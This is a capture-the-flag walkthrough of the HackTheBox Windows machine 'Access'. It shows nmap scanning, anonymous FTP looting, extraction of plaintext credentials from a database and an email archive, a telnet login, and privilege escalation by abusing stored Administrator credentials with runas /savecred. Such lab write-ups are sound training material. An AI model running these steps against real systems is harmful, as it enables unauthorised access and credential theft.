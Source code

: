 ```yaml
---
title:  "Access"
date: 2019-03-11
categories:
  - hackthebox
tags:	[machines, windows, easy]
excerpt:  "This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox."
---
```

This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/Access/banner.PNG)

## Unlock and Access!

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```console
htb@noone:~/Access$ nmap -v -sC -sV -oA nmap/access 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up (0.12s latency).
Not shown: 997 filtered ports

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Well, so we have a few ports open, port 21, 23, 80.

I always like to check the low-hanging fruit first. So let's get into FTP since `anonymous` login is allowed. This is a common misconfiguration for FTP logins. You never know what you might find but always is useful.

```console
htb@noone:~/Access$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:htb): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.

ftp> cd Backups
250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-23-18  08:16PM              5652480 backup.mdb
226 Transfer complete.

ftp> cd ../Engineer
l250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.

ftp> get "Access Control.zip"

ftp> get ../Backups/backup.mdb
```

After exploring the FTP shell, I found two files `backup.mdb` and `Access Control.zip`

A little Google-Fu helped me to figure out what a `mdb` file was and how I could use command-line tools in kali to view the contents.

```console
htb@noone:~/Access$ mdb-tables backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc
auth_group_permissions auth_message auth_permission - auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS
deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog
ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam
auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate
FaceTempEx FingerVeinEx TEMPLATEEx

htb@noone:~/Access$ mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer" ,"access4u@security" ,1,"08/23/18 21:13:36",26,
28,"backup_admin" ,"admin" ,1,"08/23/18 21:14:02",26,
```

Credentials found for some users. Now let's try to access the zip archive.

I tried to extract te=he archive on Linux, doesn't work. So, I downloaded it on a Windows box and tried to unzip and apparently, it needs a password. Thankfully, we have a list that we just extracted.

After some trial and error, `access4u@security` was the password for the archive. Found a `.pst` file. Again some Google-Fu and I found a way to read the file on linux.

````console
htb@noone:~/Access$ readpst 'Access Control.pst'

htb@noone:~/Access$cat 'Access Control.mbox'

From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-930452179_-_-"


----boundary-LibPST-iamunique-930452179_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-930452179_-_-"

--alt---boundary-LibPST-iamunique-930452179_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,



The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.



Regards,

John
````

Great! So we have a set of credentials. That was it from FTP, onto the next service which is Telnet on port 23.

````console
htb@noone:~/Access$ telnet -l security 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

password:4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security

```snip```
03/12/2019  12:33 PM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
08/21/2018  10:35 PM    <DIR>          Downloads
```snip```
2 File(s)          5,198 bytes
14 Dir(s)  16,667,664,384 bytes free
C:\Users\security>cd Desktop

C:\Users\security\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security\Desktop
```snip```
08/21/2018  10:37 PM                32 user.txt
```snip```

C:\Users\security\Desktop>more user.txt
f******************************8
````

Excellent! We have our user flag. Onto root.

In the same telnet session, I tried to check ways to privesc.

```console
C:\>cmdkey /list

Currently stored credentials:

Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator

C:\>C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"

C:\>more C:\Users\security\Downloads\root.txt
6******************************f
```

Voila! We have the root flag as well and we can use this to gain out points on HackTheBox.

The privilege escalation on this box wasn't that complicated if you know what you are doing.

Happy Hacking! Cheers!

